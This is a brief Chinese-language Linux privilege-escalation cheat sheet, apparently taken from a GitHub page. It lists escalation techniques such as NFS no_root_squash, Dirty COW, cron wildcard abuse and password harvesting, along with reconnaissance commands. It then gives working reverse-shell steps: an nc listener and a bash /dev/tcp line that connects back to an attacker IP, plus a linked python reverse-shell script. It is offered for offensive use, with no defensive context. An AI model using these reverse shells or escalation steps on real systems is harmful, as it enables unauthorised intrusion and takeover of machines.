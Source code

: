 ##  0x01 一般方法
* NFS
    * 文件挂载权限
    * no_root_squash
* **内核提权**
    * 脏牛提权
* 程序劫持
    * cve-2016-1531
* cron
    * 路径+自动运行
    * 通配符执行
    * 文件修改
* 文件权限
* sudu
* 密码
    * 内存读取密码
    * 本地配置文件
    * 历史记录
## 0x02 基本命令
```bash
uname -a
查看内核版本
id
显示用户的ID，以及所属群组的ID
pwd
显示当前路径
dpkg -l
rpm -qa
查看已经安装的程序
cat /etc/issue
cat /etc/*-release
查看发行版
```
## 0x03 Linux反弹shell
先拿到webshell
1. 反弹常用端口
```
先进行本地进行监听:
nc -lvp 53
nc -lnvp 53
然后在拿到shell的机器上执行:
bash -i >& /dev/tcp/攻击ip/53 0>&1
```
2. python脚本反弹shell
```
本地监听 ：nc -l -p 53 -vv
目标机器执行：python back.py 攻击ip 53
```
[pyshell](https://github.com/wantongtang/pyshell)
